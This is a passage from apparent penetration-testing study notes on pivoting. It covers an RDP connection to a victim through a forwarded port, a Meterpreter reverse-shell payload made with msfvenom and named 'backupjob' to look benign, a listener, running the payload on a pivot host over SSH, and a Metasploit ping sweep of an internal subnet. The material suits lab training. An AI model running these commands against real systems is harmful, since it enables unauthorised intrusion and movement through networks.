 **5.** Connect to victim's machine2 from the attacker machine:

```shell-session
xfreerdp /v:localhost:3300 /u:$username /p:$password

# use Netstat to view information about the session we recently established
netstat -antp
```



#### Module `ping_sweep` in metasploit

Module ping_sweep in metasploit allows us to perform a ping sweep from our meterpreter session to the new discovered subnet (reachable only from that session). 

**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, do the ping sweep with the module ping_sweep:

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=$newDiscoveredIPrange/23

# As a result we will see:
[*] Performing ping sweep for IP range $newDiscoveredIPrange/23
```

#### Module `Autoroute` in metasploit
